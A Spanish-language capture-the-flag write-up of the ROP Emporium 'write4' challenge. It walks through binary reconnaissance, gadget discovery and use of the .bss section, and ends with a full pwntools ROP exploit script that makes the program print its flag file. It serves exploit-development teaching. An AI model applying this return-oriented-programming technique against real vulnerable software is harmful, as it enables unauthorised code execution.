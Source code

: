 ```yaml
---
title: write4
date: 2024-08-13
platform: ROP Emporium
author: naibu3
---
```

#writeup 
# Reconocimiento

Como siempre comenzamos lanzando [[checksec]]:

```checksec
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'.'
```

El enunciado:

```markdown
The important thing to realize in this challenge is that ROP is just a form of arbitrary code execution and if we’re creative we can leverage it to do things like write to or read from memory. The question is what mechanism are we going to use to solve this problem, is there any built-in functionality to do the writing or do we need to use gadgets? In this challenge we won’t be using built-in functionality since that’s too similar to the previous challenges, instead we’ll be looking for gadgets that let us write a value to memory such as
`mov [reg], reg`.
```

Por lo que parece, será un ataque de tipo [[ROP - Return Oriented Programming|ROP]].

Analizando con [[gdb]]-[[pwndbg]], vemos las siguientes funciones:

```asm
0x00000000004004d0  _init
0x0000000000400500  pwnme@plt
0x0000000000400510  print_file@plt
0x0000000000400520  _start
0x0000000000400550  _dl_relocate_static_pie
0x0000000000400560  deregister_tm_clones
0x0000000000400590  register_tm_clones
0x00000000004005d0  __do_global_dtors_aux
0x0000000000400600  frame_dummy
0x0000000000400607  main
0x0000000000400617  usefulFunction
0x0000000000400628  usefulGadgets
0x0000000000400630  __libc_csu_init
0x00000000004006a0  __libc_csu_fini
0x00000000004006a4  _fini
```

Vemos que ahora la función *pwnme* se encuentra enlazada dinámicamente. Además, hay una función *printfile* a la que tendremos que llamar:

```asm
0x00007ffff7a00943 <+0>:	push   rbp
0x00007ffff7a00944 <+1>:	mov    rbp,rsp
0x00007ffff7a00947 <+4>:	sub    rsp,0x40
0x00007ffff7a0094b <+8>:	mov    QWORD PTR [rbp-0x38],rdi
0x00007ffff7a0094f <+12>:	mov    QWORD PTR [rbp-0x8],0x0
0x00007ffff7a00957 <+20>:	mov    rax,QWORD PTR [rbp-0x38]
0x00007ffff7a0095b <+24>:	lea    rsi,[rip+0xd5]        # 0x7ffff7a00a37
0x00007ffff7a00962 <+31>:	mov    rdi,rax
0x00007ffff7a00965 <+34>:	call   0x7ffff7a007a0 <fopen@plt>
0x00007ffff7a0096a <+39>:	mov    QWORD PTR [rbp-0x8],rax
0x00007ffff7a0096e <+43>:	cmp    QWORD PTR [rbp-0x8],0x0
0x00007ffff7a00973 <+48>:	jne    0x7ffff7a00997 <print_file+84>
0x00007ffff7a00975 <+50>:	mov    rax,QWORD PTR [rbp-0x38]
0x00007ffff7a00979 <+54>:	mov    rsi,rax
0x00007ffff7a0097c <+57>:	lea    rdi,[rip+0xb6]        # 0x7ffff7a00a39
0x00007ffff7a00983 <+64>:	mov    eax,0x0
0x00007ffff7a00988 <+69>:	call   0x7ffff7a00750 <printf@plt>
0x00007ffff7a0098d <+74>:	mov    edi,0x1
0x00007ffff7a00992 <+79>:	call   0x7ffff7a007b0 <exit@plt>
0x00007ffff7a00997 <+84>:	mov    rdx,QWORD PTR [rbp-0x8]
0x00007ffff7a0099b <+88>:	lea    rax,[rbp-0x30]
0x00007ffff7a0099f <+92>:	mov    esi,0x21
0x00007ffff7a009a4 <+97>:	mov    rdi,rax
0x00007ffff7a009a7 <+100>:	call   0x7ffff7a00780 <fgets@plt>
0x00007ffff7a009ac <+105>:	lea    rax,[rbp-0x30]
0x00007ffff7a009b0 <+109>:	mov    rdi,rax
0x00007ffff7a009b3 <+112>:	call   0x7ffff7a00730 <puts@plt>
0x00007ffff7a009b8 <+117>:	mov    rax,QWORD PTR [rbp-0x8]
0x00007ffff7a009bc <+121>:	mov    rdi,rax
0x00007ffff7a009bf <+124>:	call   0x7ffff7a00740 <fclose@plt>
0x00007ffff7a009c4 <+129>:	mov    QWORD PTR [rbp-0x8],0x0
0x00007ffff7a009cc <+137>:	nop
0x00007ffff7a009cd <+138>:	leave
0x00007ffff7a009ce <+139>:	ret
```
> Para poder descompilarlo, debemos estar ejecutando el programa, ya que se enlaza dinámicamente.

También necesitaremos la cadena *flag.txt*, que por desgracia no está en el binario:

```gdb
search flag.txt
Searching for value: 'flag.txt'
warning: Unable to access 16007 bytes of target memory at 0x7ffff7a01000, halting search.
```

Por tanto, debemos encontrar un gadget que nos permita escribir en una región del binario con permisos de lectura/escritura. Para ello utilizaremos [[ROPGadget]]:

```bash
0x0000000000400628 : mov qword ptr [r14], r15 ; ret
```

Con este gadget podemos escribir en la dirección a la que apunte *r14*, que será una zona con permisos R/W. Para buscar dicha zona utilizaremos [[radare2]]:

```bash
r2 write4

WARN: Relocs has not been applied. Please use `-e bin.relocs.apply=true` or `-e bin.cache=true` next time

[0x00400520]> iS
[Sections]

nth paddr        size vaddr       vsize perm type        name
―――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00000000    0x0 0x00000000    0x0 ---- NULL
1   0x00000238   0x1c 0x00400238   0x1c -r-- PROGBITS    .interp
2   0x00000254   0x20 0x00400254   0x20 -r-- NOTE        .note.ABI-tag
3   0x00000274   0x24 0x00400274   0x24 -r-- NOTE        .note.gnu.build-id
4   0x00000298   0x38 0x00400298   0x38 -r-- GNU_HASH    .gnu.hash
5   0x000002d0   0xf0 0x004002d0   0xf0 -r-- DYNSYM      .dynsym
6   0x000003c0   0x7c 0x004003c0   0x7c -r-- STRTAB      .dynstr
7   0x0000043c   0x14 0x0040043c   0x14 -r-- GNU_VERSYM  .gnu.version
8   0x00000450   0x20 0x00400450   0x20 -r-- GNU_VERNEED .gnu.version_r
9   0x00000470   0x30 0x00400470   0x30 -r-- RELA        .rela.dyn
10  0x000004a0   0x30 0x004004a0   0x30 -r-- RELA        .rela.plt
11  0x000004d0   0x17 0x004004d0   0x17 -r-x PROGBITS    .init
12  0x000004f0   0x30 0x004004f0   0x30 -r-x PROGBITS    .plt
13  0x00000520  0x182 0x00400520  0x182 -r-x PROGBITS    .text
14  0x000006a4    0x9 0x004006a4    0x9 -r-x PROGBITS    .fini
15  0x000006b0   0x10 0x004006b0   0x10 -r-- PROGBITS    .rodata
16  0x000006c0   0x44 0x004006c0   0x44 -r-- PROGBITS    .eh_frame_hdr
17  0x00000708  0x120 0x00400708  0x120 -r-- PROGBITS    .eh_frame
18  0x00000df0    0x8 0x00600df0    0x8 -rw- INIT_ARRAY  .init_array
19  0x00000df8    0x8 0x00600df8    0x8 -rw- FINI_ARRAY  .fini_array
20  0x00000e00  0x1f0 0x00600e00  0x1f0 -rw- DYNAMIC     .dynamic
21  0x00000ff0   0x10 0x00600ff0   0x10 -rw- PROGBITS    .got
22  0x00001000   0x28 0x00601000   0x28 -rw- PROGBITS    .got.plt
23  0x00001028   0x10 0x00601028   0x10 -rw- PROGBITS    .data
24  0x00001038    0x0 0x00601038    0x8 -rw- NOBITS      .bss
25  0x00001038   0x29 0x00000000   0x29 ---- PROGBITS    .comment
26  0x00001068  0x618 0x00000000  0x618 ---- SYMTAB      .symtab
27  0x00001680  0x1f6 0x00000000  0x1f6 ---- STRTAB      .strtab
28  0x00001876  0x103 0x00000000  0x103 ---- STRTAB      .shstrtab
```

Utilizaremos la sección *.bss*, aunque *.data* debería funcionar igualmente.

Ahora nos falta un gadget que nos permita guardar valores en *r14* y *r15*:

```ams
0x0000000000400690 : pop r14 ; pop r15 ; ret
```

Solo nos falta ver de dónde toma el argumento *print_file*. En este caso, viendo el código de arriba, veremos que el nombre del archivo se debe pasar en *rdi*.

```asm
0x0000000000400693 : pop rdi ; ret
```

# Explotación

Ya solo queda hacer el script, que quedaría:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *

# Set up pwntools for the correct architecture
context.bits=64
exe = './write4'

def start():
    
    return process(exe)

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()

padding=40*b'A' #Same as previous

# 0x0000000000400510  print_file@plt
print_file = p64(0x0000000000400510)

flag_txt = b'flag.txt'

# 0x0000000000400628 : mov qword ptr [r14], r15 ; ret
load_r14 = p64(0x0000000000400628)

rw_section = p64(0x00601038)

# 0x0000000000400690 : pop r14 ; pop r15 ; ret
pop_r14_r15 = p64(0x0000000000400690)

# 0x0000000000400693 : pop rdi ; ret
pop_rdi = p64(0x0000000000400693)

payload = padding + pop_r14_r15 + rw_section + flag_txt + load_r14 + pop_rdi + rw_section + print_file

io.send(payload)

io.interactive()
```